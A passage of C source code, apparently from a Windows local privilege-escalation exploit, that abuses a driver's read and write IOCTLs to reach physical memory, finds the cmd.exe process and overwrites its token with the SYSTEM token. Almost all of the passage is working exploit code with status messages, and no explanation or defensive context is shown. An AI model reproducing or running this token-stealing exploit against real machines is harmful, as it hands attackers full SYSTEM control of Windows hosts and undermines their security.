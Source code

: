 ```c
        }

        if (imagename_value == 0x6578652e646d63) {
            printf("[>] [%s] found\n", (char*)imagename_address);
            cmd_token_addr = (read_address + proc_data.header_size[i] + proc_data.page_entry_offset[i] + 0x4b8);
        }
    }
}

void overwrite_token(HANDLE dHandle) {
    DWORD modulus = cmd_token_addr % 0x1000;
    INT64 cmd_page = cmd_token_addr - modulus;
    DWORD bytes_ret = 0x0;
    DWORD read_num_bytes = modulus;
    PBYTE output_buff = (PBYTE)VirtualAlloc(NULL, modulus + 0xc, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    READ_INPUT_BUFFER input_buff = { cmd_page, read_num_bytes };

    DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, modulus + 0xc, &bytes_ret, NULL);

    PBYTE results = (PBYTE)((INT64)output_buff + 0xc);
    PBYTE cmd_page_buff = (PBYTE)VirtualAlloc(NULL, modulus + 0x8, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(cmd_page_buff, results, modulus);
    memcpy(cmd_page_buff + modulus, (void*)&system_token_value, 0x8);
    
    DWORD num_of_bytes = modulus + 0x8;
    BYTE input_buff2[0x1000] = { 0, };
    memcpy(input_buff2, (void*)&cmd_page, 0x8);  //Physical address
    memcpy(input_buff2 + 0x8, (void*)&num_of_bytes, 0x4); // Number of bytes
    memcpy(input_buff2 + 0xc, cmd_page_buff, modulus + 0x8); // Address to be copied

    DeviceIoControl(dHandle, WRITE_IOCTL, input_buff2, modulus + 0x8 + 0xc, NULL, 0, &bytes_ret, NULL);

}

int main() {
    HANDLE dHandle;
    dHandle = CreateFileW(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    PROC_DATA proc_data;
    if (dHandle == INVALID_HANDLE_VALUE)
    {
        printf("Get Device Handle Fail : 0x%X \n", GetLastError());
        return 1;
    }

    proc_data = read_memory(dHandle);

    parse_proc(proc_data, dHandle);
    if (system_token_value == 0 || cmd_token_addr == 0) {
        printf("Get cmd.exe/SYSTEM token Fail\n");
        return 1;
    }

    printf("[>] cmd.exe token address: 0x%llx\n", cmd_token_addr);
    printf("[>] Overwriting token with value: 0x%llx\n", system_token_value);

    overwrite_token(dHandle);
```